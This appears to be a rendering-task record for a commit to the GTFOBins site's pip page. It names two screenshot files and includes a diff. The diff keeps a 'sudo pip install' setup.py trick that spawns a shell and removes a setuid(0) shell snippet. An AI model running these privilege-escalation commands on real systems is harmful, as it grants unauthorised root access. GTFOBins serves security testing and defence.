

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/pip.md, in a window 1280 px wide and 900 px high, scrolled down 1902 px. Shown: the top 872 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 2510 px from its top, so only the background shows below that.

Commit message:
Remove capabilities-enabled from pip

```diff
--- a/_gtfobins/pip.md
+++ b/_gtfobins/pip.md
@@ -70,9 +70,4 @@ functions:
         TF=$(mktemp -d)
         echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
         sudo pip install $TF
-  capabilities-enabled:
-    - code: |
-        TF=$(mktemp -d)
-        echo "import os; os.setuid(0); os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
-        ./easy_install
 ---
```
